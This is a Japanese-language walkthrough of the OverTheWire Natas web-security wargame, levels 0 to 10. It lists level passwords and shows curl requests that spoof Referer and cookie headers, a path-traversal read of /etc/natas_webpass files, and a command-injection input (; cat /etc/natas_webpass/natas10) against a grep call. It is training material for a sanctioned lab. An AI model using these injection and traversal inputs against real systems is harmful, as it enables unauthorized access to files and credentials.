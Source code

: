 # Natas - http://overthewire.org/wargames/natas/

Web Securiry!

## Level 0

http://natas0.natas.labs.overthewire.org アクセスするとusername: natas0, password: natas0

## Level 0>1

ソースの中にコメントアウトされたパスワードがある。

gtVrDuiDfck831PqWsLEZy5gyDz1clto
## Level 1>2

１つ前と同じだが、右クリックができないので最初にコンソールを開いた状態でアクセスする。

ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2>3

ソースを見ると`file/pixel.png`というファイルがある。画像自体に意味はなかったが、 http://natas2.natas.labs.overthewire.org/files/ にアクセスすると`users.txt` がありその中にnatas3のパスワードがある

## Level 3>4

ソースに`<!-- No more information leaks!! Not even Google will find it this time... -->`とあり`robots.txt`だとあたりがついた。

http://natas3.natas.labs.overthewire.org/robots.txt にいくと、/s3cr3t/とあるので http://natas3.natas.labs.overthewire.org/s3cr3t/ にusers.txtがある

Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4>5

```
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
と言われるので natas5から来たように見せかける必要がある。

コンソールからGET index.phpのリクエストをcurl形式でコピーしする。

```
curl 'http://natas4.natas.labs.overthewire.org/index.php' -H 'Pragma: no-cache' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: ja,en-US;q=0.8,en;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Cache-Control: no-cache' -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' -H 'Cookie: __cfduid=d5d2f7fba2a15d7664db136482e3d8d6b1493545265; __utma=176859643.511105113.1493545305.1493574933.1493581635.8; __utmb=176859643.35.10.1493581635; __utmc=176859643; __utmz=176859643.1493545305.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)' -H 'Connection: keep-alive' -H 'Referer: http://natas4.natas.labs.overthewire.org/' --compressed
```

で、Refererをnatas5にすればok

iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5>6

リクエストをcurlコピーすると以下である。
```
curl 'http://natas5.natas.labs.overthewire.org/index.php' -H 'Pragma: no-cache' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: ja,en-US;q=0.8,en;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Cache-Control: no-cache' -H 'Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx' -H 'Cookie: loggedin=0' -H 'Connection: keep-alive' --compressed
```

`Cokkie: loggedin=0`を1にするだけ。

aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6>7

ソース中の
```
<?
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```
から、 http://natas6.natas.labs.overthewire.org/includes/secret.inc にsecretがあるのでこれを提出。

## Level 7 > 8

ヒントにある`/etc/natas_webpass/natas8`をパラメータに入れる。

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## 8 > 9

```
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

encodeSecret()の逆をやれば良いので、サンドボックスかどこかで`echo base64_decode(strrev(hex2bin($encodedSecret)));`

とすると、`oubWYf2kBq`が得られ、提出すればok

W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## 9 > 10

source code から入力した文字列を `passthru("grep -i $key dictionary.txt");`の$keyに代入して実行している。※paththruはコマンド実行関数

セミコロンで無理やりコマンドを止めて、そのあとに任意のコマンドを実行できるので

`; cat /etc/natas_webpass/natas10`でおk

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## 10 > 11

さっきと似たような問題だが、`;`, `|`, `&`がエスケープされている。これを回避できれば良い。


